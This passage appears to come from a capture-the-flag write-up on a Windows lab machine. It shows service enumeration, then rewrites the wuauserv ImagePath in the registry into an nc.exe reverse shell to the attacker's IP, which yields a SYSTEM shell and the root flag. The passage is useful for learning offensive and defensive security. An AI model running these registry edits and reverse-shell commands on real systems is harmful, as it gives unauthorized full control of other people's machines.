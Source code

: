 Get services registry binary path

```
PS C:\Users\Hector\Videos> reg query hklm\System\CurrentControlSet\Services /s /v imagepath

powershell -nop -c "wget http://10.10.15.123:8080/services_name.txt -OutFile services_name.txt"
```

In `cmd.exe` we can try to loop over all services like that:

```
FOR /F %i in (services_name.txt) DO @sc qc %i
```

I translated this in PowerShell to check process that the user has access to:

```powershell
foreach($line in Get-Content .\services_name.txt) { 
  $res = iex "sc.exe qc $line"
  if($res -match 'QueryServiceConfig SUCCESS'){
    echo $res
  }
}
```

So we have a list of services that Hector can modify, that iusr can restart and
that are own and executed as SYSTEM.

With Hector we try to modify `wuauserv` binary to a reverse shell command:

```
C:\Users\Hector\Videos>reg add HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\wuauserv /v ImagePath /t REG_EXPAND_SZ /d "C:\Inetpub\wwwroot\uploads\nc.exe 10.10.15.123 10004 -e powershell.exe" /f
The operation completed successfully.
```

With iusr we start the service: `sc start wuauserv` so we gain a system shell.

```
nc -nlp 10004
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> gc C:\Users\Administrator\Desktop\root.txt
8f8613f5b4da391f36ef11def4cec1b1

PS C:\Windows\system32> whoami
nt authority\system
```

Note: the command is executed even if `sc` displays an error.

Why `wuauserv`? I just tried them all and it worked with this one.

### Files

As the output of the commands listing services were very long I pasted them
in a Gist.

